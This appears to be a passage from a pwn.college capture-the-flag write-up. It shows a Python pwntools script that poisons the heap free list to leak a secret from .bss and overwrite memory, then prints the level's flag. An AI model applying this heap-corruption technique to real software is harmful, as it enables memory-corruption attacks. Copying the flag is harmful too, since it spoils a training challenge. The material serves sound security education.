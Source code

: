 ```python
    secret = elf.bss() + 0x1230A + 0x8
    zero_out = elf.bss() + 0x1230A - 0x8

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)
    target.recvuntil(b"Data: ")
    secret = target.recvline().strip()

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    # raw_input("DEBUG")
    scanf(0, p32(zero_out))
    malloc(0, 0)
    malloc(0, 0)

    # raw_input("DEBUG")
    payload = flat(
        0,
        secret,
    )
    send_flag(payload)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{4xf_sG0yXaGhMXdibln3SOAB5xv.0VN4MDL5cTNxgzW}`]

# Level 8.1

## Information

- Category: Pwn

## Description
